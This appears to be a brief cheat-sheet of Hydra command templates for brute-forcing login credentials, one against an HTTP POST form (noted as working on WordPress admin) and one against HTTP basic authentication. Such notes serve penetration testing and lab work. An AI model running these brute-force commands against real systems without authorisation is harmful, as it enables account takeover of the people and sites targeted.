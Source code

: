 
Hydra http-post form brute force
Works on WP Admin
```
hydra -l <username> -P <password_list> <ip_address> http-post-form "/<path_to_form>/<username_and_password_response>"
```


Hydra Brute Force Attack Basic Authentication
```
hydra -l username -P password_file.txt -s port -f ip_address request_method /path
```